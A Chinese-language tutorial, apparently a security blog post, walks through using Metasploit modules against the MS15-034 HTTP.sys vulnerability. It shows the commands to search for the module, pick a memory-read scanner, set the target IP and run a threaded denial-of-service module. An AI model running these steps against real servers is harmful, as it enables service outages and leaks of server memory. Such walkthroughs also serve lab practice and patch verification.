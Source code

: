 ```
msfconsole
msf6>search MS15-034

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBm20LRWr8CjTRKnFd2WxqhIpfXPfzIbpD6fm8kpGNE5xic0Py6bMGlicw/640?wx_fmt=png&from=appmsg "")  
  
发现该漏洞有可利用的模块，  
### 选择payload模块  
  
选择payload模块，带有sanner的是验证模块，带有dos的是攻击模块：，  在 kali 系统，借助 metasploit 平台利用 ms15-034 漏洞读取服务器内存数据，这是获取内存信息的工具
```
use 1
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBxfBaXNLxGwula1DRibxjjEOW4zeR55J8VWZqXySdAPIicvVzNCmibGDicg/640?wx_fmt=png&from=appmsg "")  
  
#### 设置目标IP  
  
看一下这个模块需要配置什么  

```
show options

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB3gj0nLfu0bHdLoGwVh4ziaDYDF9xib0eiaWzvvwM5bhXFB3I4jjfkArbQ/640?wx_fmt=png&from=appmsg "")  
发现我们只需要设置目标ip就可以啦  

```
set rhosts 目标ip

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBlYfmcoJyibgvbnBUhc7FhcKagJfCSpt8N8S3eT07EeATWOl9f4kkbHA/640?wx_fmt=png&from=appmsg "")  
#### 开始读取内存信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBiaYKlE31yZV7RpIfvicxQJxC56kYJ6iaOKsoxOMpibAtynbriaDfx2ggS2Q/640?wx_fmt=png&from=appmsg "")  
但它在大多数环境下并不能真正实现“读取任意内存”的效果  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBcCwFYRx7oJRc43bhncny73liaqDjZJLk7yR9pociaG57w5tG1d18lF0w/640?wx_fmt=png&from=appmsg "")  
  
### dos攻击模块  
  
利用 ms15-034 漏洞进行 ddos 攻击,同样借助 metasploit 平台  

```
msf6>use auxiliary/dos/http/ms15_034_ulonglongadd
Msf6 auxiliary > set rhosts 目标ip
Msf6 auxiliary >   set  threads 10    (把攻击线程数设置成 10 个)
Threads => 10
Msf6 auxiliary > run

```
